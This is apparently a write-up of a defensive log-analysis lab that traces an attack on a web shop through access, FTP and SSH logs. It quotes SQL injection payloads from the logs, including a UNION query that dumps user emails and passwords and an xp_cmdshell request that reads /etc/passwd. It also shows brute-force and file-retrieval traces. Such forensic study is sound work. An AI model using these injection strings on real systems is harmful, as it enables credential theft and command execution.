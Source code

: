 ## Task 2 : Reconnaissance

#### What tools did the attacker use ? (Order by the occurrence in the log)

In log file "access.log", we can successively find Nmap, Hydra, sqlmap, curl and feroxbuster :

> ::ffff:192.168.10.5 - - [11/Apr/2021:09:08:35 +0000] "POST / HTTP/1.1" 200 1924 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"

> ::ffff:192.168.10.5 - - [11/Apr/2021:09:16:27 +0000] "GET /rest/user/login HTTP/1.0" 500 - "-" "Mozilla/5.0 (Hydra)"

> ::ffff:192.168.10.5 - - [11/Apr/2021:09:29:15 +0000] "GET /rest/products/search?q=1 HTTP/1.1" 200 - "-" "sqlmap/1.5.2#stable (http://sqlmap.org)"

> ::ffff:192.168.10.5 - - [11/Apr/2021:09:32:51 +0000] "GET /rest/products/search?q=qwert%27))%20UNION%20SELECT%20id,%20email,%20password,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users-- HTTP/1.1" 200 3742 "-" "curl/7.74.0"

> ::ffff:192.168.10.5 - - [11/Apr/2021:09:34:33 +0000] "GET /api HTTP/1.1" 500 - "-" "feroxbuster/2.2.1"

#### What endpoint was vulnerable to a brute-force attack ?

> ::ffff:192.168.10.5 - - [11/Apr/2021:09:16:32 +0000] "POST **/rest/user/login** HTTP/1.0" 401 26 "-" "Mozilla/5.0 (Hydra)"

#### What endpoint was vulnerable to SQL injection ?

sqlmap is mainly used on /rest/products/search

#### What parameter was used for the SQL injection ?

The first two lines in access.log where user-agent is sqlmap :

> ::ffff:192.168.10.5 - - [11/Apr/2021:09:29:14 +0000] "GET /rest/products/search?**q**=1 HTTP/1.1" 200 - "-" "sqlmap/1.5.2#stable (http://sqlmap.org)"
> ::ffff:192.168.10.5 - - [11/Apr/2021:09:29:15 +0000] "GET /rest/products/search?**q**=1&QKqc=7074%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 - "-" "sqlmap/1.5.2#stable (http://sqlmap.org)"

#### What endpoint did the attacker try to use to retrieve files ?

Still in file access.log :

> ::ffff:192.168.10.5 - - [11/Apr/2021:09:34:33 +0000] "GET **/ftp** HTTP/1.1" 200 4852 "-" "feroxbuster/2.2.1"
> ::ffff:192.168.10.5 - - [11/Apr/2021:09:34:40 +0000] "GET **/ftp**/www-data.bak HTTP/1.1" 403 300 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
> ::ffff:192.168.10.5 - - [11/Apr/2021:09:34:43 +0000] "GET **/ftp**/coupons_2013.md.bak HTTP/1.1" 403 78965 "-" ""Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"


## Task 3 : Stolen data

#### What section of the website did the attacker use to scrape user email addresses ?

From the many lines such as 
> ::ffff:192.168.10.5 - - [11/Apr/2021:09:11:42 +0000] "GET /rest/products/20/reviews HTTP/1.1" 304 - "http://192.168.10.4/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"

one can infer that the attacker scrapped the "product reviews" section of the website to collect users' emails.

#### Was their brute-force attack successful ? If so, what is the timestamp of the successful login ?

The last line in file access.log where the user-agent is Hydra :
> ::ffff:192.168.10.5 - - [11/Apr/2021:09:16:32 +0000] "POST /rest/user/login HTTP/1.0" 401 26 "-" "Mozilla/5.0 (Hydra)"

The attack succeeded at 11/Apr/2021:09:16:31 +0000.

#### What user information was the attacker able to retrieve from the endpoint vulnerable to SQL injection ?

> ::ffff:192.168.10.5 - - [11/Apr/2021:09:31:04 +0000] "GET /rest/products/search?q=qwert%27))%20UNION%20SELECT%20id,%20email,%20password,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users-- HTTP/1.1" 200 - "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
> ::ffff:192.168.10.5 - - [11/Apr/2021:09:32:51 +0000] "GET /rest/products/search?q=qwert%27))%20UNION%20SELECT%20id,%20email,%20password,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users-- HTTP/1.1" 200 3742 "-" "curl/7.74.0"

email,password

#### What files did they try to download from the vulnerable endpoint ? (endpoint from the previous task, question #5)

> ::ffff:192.168.10.5 - - [11/Apr/2021:09:34:40 +0000] "GET /ftp/**www-data.bak** HTTP/1.1" 403 300 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
> ::ffff:192.168.10.5 - - [11/Apr/2021:09:34:43 +0000] "GET /ftp/**coupons_2013.md.bak** HTTP/1.1" 403 78965 "-" ""Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"

Also visible in file vsftpd.log :

> Sun Apr 11 09:35:45 2021 [pid 8154] [ftp] OK DOWNLOAD: Client "::ffff:192.168.10.5", "/**www-data.bak**", 2602 bytes, 544.81Kbyte/sec
> Sun Apr 11 09:36:08 2021 [pid 8154] [ftp] OK DOWNLOAD: Client "::ffff:192.168.10.5", "/**coupons_2013.md.bak**", 131 bytes, 3.01Kbyte/sec

#### What service and account name were used to retrieve files from the previous question ?

From the logs in file vsftpd.log :

ftp,anonymous

#### What service and username were used to gain shell access to the server ?

Look in auth.log :
> Apr 11 09:41:19 thunt sshd[8260]: Accepted password for www-data from 192.168.10.5 port 40112 ssh2

ssh,www-data
